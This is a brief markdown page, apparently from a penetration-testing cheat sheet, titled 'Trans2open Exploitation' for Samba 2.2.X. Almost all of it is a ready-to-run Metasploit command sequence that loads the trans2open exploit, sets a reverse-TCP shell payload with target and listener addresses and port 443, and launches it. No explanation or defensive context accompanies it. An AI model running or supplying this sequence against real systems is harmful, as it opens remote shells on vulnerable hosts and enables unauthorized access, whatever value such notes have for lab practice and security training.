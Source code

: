 ```yaml
---
description: Trans2open Exploitation
---
```


# Samba 2.2.X



```
use exploit/linux/samba/trans2open
set VERBOSE true
set PAYLOAD linux/x86/shell_reverse_tcp
set RHOST IP
set LPORT 443
set LHOST IP
exploit -j -z
```
